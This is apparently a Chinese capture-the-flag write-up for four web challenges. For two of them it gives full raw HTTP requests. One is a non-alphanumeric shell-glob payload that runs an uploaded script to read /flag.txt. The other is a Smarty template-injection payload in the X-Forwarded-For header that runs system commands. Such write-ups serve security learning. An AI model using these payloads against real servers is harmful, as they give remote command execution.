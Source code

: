 # 1.签到

直接右键查看源代码，over

# 2.easy_web1

![image-20210712100722492](images/image-20210712100722492.png)

# 3.easy_web2

![wecom-temp-14cb6712f8e834486dc295d1292e9be5](images/wecom-temp-14cb6712f8e834486dc295d1292e9be5.png)

抄的我p神的思路

```
POST /?shell=.%20%2F%3F%3F%3F%2F%3F%3F%3F%3F%3F%3F%3F%3F%5B%40-%5B%5D HTTP/1.1
Host: cloudeci1.ichunqiu.com
Content-Length: 206
Cache-Control: max-age=0
Origin: null
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrLrIdoDjGOhHKAwU
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryrLrIdoDjGOhHKAwU
Content-Disposition: form-data; name="upload"; filename="a.txt"
Content-Type: text/plain

#! /bin/sh

cat /flag.txt
------WebKitFormBoundaryrLrIdoDjGOhHKAwU--
```

参考文章 `https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html`



# 4.super_hacker

测试发现，执行命令不能含有空格和i



用assert执行post里面的内容就可以了，先find一下，然后再cat。over

```
POST / HTTP/1.1
Host: eci-.cloudeci1.ichunqiu.com
Pragma: no-cache
Cache-Control: no-cache
Origin: http://eci-.cloudeci1.ichunqiu.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
DNT: 1
Accept: */*
Via: 1.1 vegur
X-Forwarded-For: {assert($smarty.post.a)}
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: __jsluid_h=f8c4073200e23f9fef8f14be5a907849
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

a=system("find / -name 'flag'")
```

